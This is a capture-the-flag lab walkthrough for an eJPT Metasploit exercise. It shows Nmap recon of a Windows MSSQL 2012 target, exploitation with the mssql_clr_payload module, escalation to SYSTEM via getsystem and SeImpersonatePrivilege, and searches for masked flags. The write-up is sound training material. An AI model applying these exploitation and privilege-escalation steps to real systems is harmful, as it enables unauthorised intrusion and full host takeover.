 ```yaml
---
title: "eJPT - Host & Network Penetration Testing: The Metasploit Framework CTF1"
date: 2025-06-01 00:00:00 - 0500
categories: [ eJPT , Lab , Vulnerability Assessment]
tags: [Footprinting, Easy]

---
```


### Lab Environment

In this lab environment, you will have GUI access to a Kali machine. The target machine will be accessible at **target.ine.local**.

**Objective:** Use Metasploit and manual investigation techniques to capture the following flags:

- **Flag 1:** Gain access to the MSSQLSERVER account on the target machine to retrieve the first flag.
- **Flag 2:** Locate the second flag within the Windows configuration folder.
- **Flag 3:** The third flag is also hidden within the system directory. Find it to uncover a hint for accessing the final flag.
- **Flag 4:** Investigate the Administrator directory to find the fourth flag.

# Tools

The best tools for this lab are:

- Nmap
- Metasploit Framework
- mssql

---

# Note

In this lab, the flag will follow the format: FLAG1_MD5Hash. For example, FLAG1_0f4d0db3668dd58cabb9eb409657eaa8. You need to submit only the MD5 hash string, excluding the underscore (_). For instance: 0f4d0db3668dd58cabb9eb409657eaa8.

### Question 1

---

Gain access to the MSSQLSERVER account on the target machine to retrieve the first flag.

Nmap results:

```bash
db_nmap -sV -sC target.ine.local
[*] Nmap: Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-05 19:52 IST
[*] Nmap: Nmap scan report for target.ine.local (10.5.23.244)
[*] Nmap: Host is up (0.0028s latency).
[*] Nmap: Not shown: 991 closed tcp ports (reset)
[*] Nmap: PORT      STATE SERVICE            VERSION
[*] Nmap: 135/tcp   open  msrpc              Microsoft Windows RPC
[*] Nmap: 139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
[*] Nmap: 445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
[*] Nmap: 1433/tcp  open  ms-sql-s           Microsoft SQL Server 2012 11.00.6020.00; SP3
[*] Nmap: | ms-sql-ntlm-info:
[*] Nmap: |   10.5.23.244\MSSQLSERVER:
[*] Nmap: |     Target_Name: WIN-5BQ22OKH4SO
[*] Nmap: |     NetBIOS_Domain_Name: WIN-5BQ22OKH4SO
[*] Nmap: |     NetBIOS_Computer_Name: WIN-5BQ22OKH4SO
[*] Nmap: |     DNS_Domain_Name: WIN-5BQ22OKH4SO
[*] Nmap: |     DNS_Computer_Name: WIN-5BQ22OKH4SO
[*] Nmap: |_    Product_Version: 6.3.9600
[*] Nmap: |_ssl-date: 2025-04-05T14:23:58+00:00; 0s from scanner time.
[*] Nmap: | ms-sql-info:
[*] Nmap: |   10.5.23.244\MSSQLSERVER:
[*] Nmap: |     Instance name: MSSQLSERVER
[*] Nmap: |     Version:
[*] Nmap: |       name: Microsoft SQL Server 2012 SP3
[*] Nmap: |       number: 11.00.6020.00
[*] Nmap: |       Product: Microsoft SQL Server 2012
[*] Nmap: |       Service pack level: SP3
[*] Nmap: |       Post-SP patches applied: false
[*] Nmap: |     TCP port: 1433
[*] Nmap: |_    Clustered: false
[*] Nmap: | ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
[*] Nmap: | Not valid before: 2025-04-05T14:15:15
[*] Nmap: |_Not valid after:  2055-04-05T14:15:15
[*] Nmap: 3389/tcp  open  ssl/ms-wbt-server?
[*] Nmap: | ssl-cert: Subject: commonName=WIN-5BQ22OKH4SO
[*] Nmap: | Not valid before: 2025-01-08T07:08:38
[*] Nmap: |_Not valid after:  2025-07-10T07:08:38
[*] Nmap: | rdp-ntlm-info:
[*] Nmap: |   Target_Name: WIN-5BQ22OKH4SO
[*] Nmap: |   NetBIOS_Domain_Name: WIN-5BQ22OKH4SO
[*] Nmap: |   NetBIOS_Computer_Name: WIN-5BQ22OKH4SO
[*] Nmap: |   DNS_Domain_Name: WIN-5BQ22OKH4SO
[*] Nmap: |   DNS_Computer_Name: WIN-5BQ22OKH4SO
[*] Nmap: |   Product_Version: 6.3.9600
[*] Nmap: |_  System_Time: 2025-04-05T14:23:51+00:00
[*] Nmap: |_ssl-date: 2025-04-05T14:23:58+00:00; 0s from scanner time.
[*] Nmap: 49152/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49153/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49154/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49155/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
[*] Nmap: Host script results:
[*] Nmap: | smb-security-mode:
[*] Nmap: |   authentication_level: user
[*] Nmap: |   challenge_response: supported
[*] Nmap: |_  message_signing: disabled (dangerous, but default)
[*] Nmap: | smb2-time:
[*] Nmap: |   date: 2025-04-05T14:23:54
[*] Nmap: |_  start_date: 2025-04-05T14:15:13
[*] Nmap: | smb2-security-mode:
[*] Nmap: |   3:0:2:
[*] Nmap: |_    Message signing enabled but not required
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 74.54 seconds
```

start the MSSQL and based on version we found i search then found these

```bash
search type:exploit name:MSSQL 2012
use exploit/windows/mssql/mssql_clr_payload
```

Changed the payload from x86 to x64 and run and gained access on target and you should find the flag1 sitting there, also can be found the flag4 on root directory (I guess if not you need to have elevated  permission to do so). 

```bash
 Directory of C:\Users\Administrator\Desktop

04/05/2025  02:16 PM    <DIR>          .
04/05/2025  02:16 PM    <DIR>          ..
04/05/2025  02:16 PM                34 flag4.txt
               1 File(s)             34 bytes
               2 Dir(s)   3,739,594,752 bytes free

C:\Users\Administrator\Desktop>type flag4.txt
type flag4.txt
6d9e3ea9d172404f95c932****
```

---

### Question 2

---

Locate the second flag within the Windows configuration folder.

For this to work we need the privileged user access which we don’t have it. because the windows configureation file location is `C:\Windows\System32\config` so i got back to meterpreter and look around what are the prives we have and we do have these 

C:\Windows\System32\config 

```bash
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
```

and we get to privilied use by using 

`getsystem`

This command tries to **elevate Meterpreter to SYSTEM** (the highest privilege level in Windows).

You successfully got SYSTEM:

```
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
```

- **Technique 5** is a known method using the **Print Spooler** service to impersonate SYSTEM via **named pipe impersonation**.
- This is possible **because you had SeImpersonatePrivilege**.

with this we gained the privilieged access and found the flag2 from the location 

```bash
C:\Windows\System32\config>type flag2.txt
type flag2.txt
24d1f54d707945009ddda8*******
```

---

### Question 3:

---

The third flag is also hidden within the system directory. Find it to uncover a hint for accessing the final flag.

For this we need to search for flag and this requires just the search command which is

```bash
C:\Windows\system32>dir /a /s *flag*
dir /a /s *flag*
 Volume in drive C has no label.
 Volume Serial Number is 5CD6-020B

 Directory of C:\Windows\system32\drivers\etc

04/05/2025  02:16 PM                34 EscaltePrivilageToGetThisFlag.txt
               1 File(s)             34 bytes

     Total Files Listed:
               1 File(s)             34 bytes
               0 Dir(s)   3,739,594,752 bytes free

```

```bash
C:\Windows\System32\drivers\etc>type EscaltePrivilageToGetThisFlag.txt
type EscaltePrivilageToGetThisFlag.txt
84a36ae220e448538567a1aa4******
```

That’s our flag3

---

### Question4:

---

Investigate the Administrator directory to find the fourth flag.

Just going to the Administrator directory and under Desktop the flag is found!

```bash
Directory of C:\Users\Administrator\Desktop

04/05/2025  02:16 PM    <DIR>          .
04/05/2025  02:16 PM    <DIR>          ..
04/05/2025  02:16 PM                34 flag4.txt
               1 File(s)             34 bytes
               2 Dir(s)   3,739,594,752 bytes free

C:\Users\Administrator\Desktop>type flag4.txt
type flag4.txt
6d9e3ea9d172404f95c932f8******

```